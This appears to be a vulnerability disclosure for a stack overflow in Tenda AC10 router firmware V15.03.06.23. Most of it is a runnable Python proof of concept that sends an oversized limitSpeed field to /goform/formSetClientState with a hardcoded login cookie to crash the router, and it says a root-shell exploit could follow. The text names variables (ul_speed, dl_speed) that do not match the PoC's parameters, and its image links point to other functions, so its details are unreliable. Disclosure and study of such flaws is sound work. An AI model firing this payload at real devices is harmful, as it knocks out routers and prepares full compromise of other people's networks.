 # Tenda AC10V15.03.06.23 Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2734.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/form_fast_setting_wifi_set/img/1.png)


## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/fromNatStaticSetting/img/2.png)

The two variables ul_speed and dl_speed are user-controllable and will be spliced into the buff by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x300
p2 = b'limitEn=1&deviceId=a&limitSpeedUp=a&limitSpeed=' + p1

p3 = b"POST /goform/formSetClientState" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

You can see the router crash, and finally we can write an exp to get a root shell


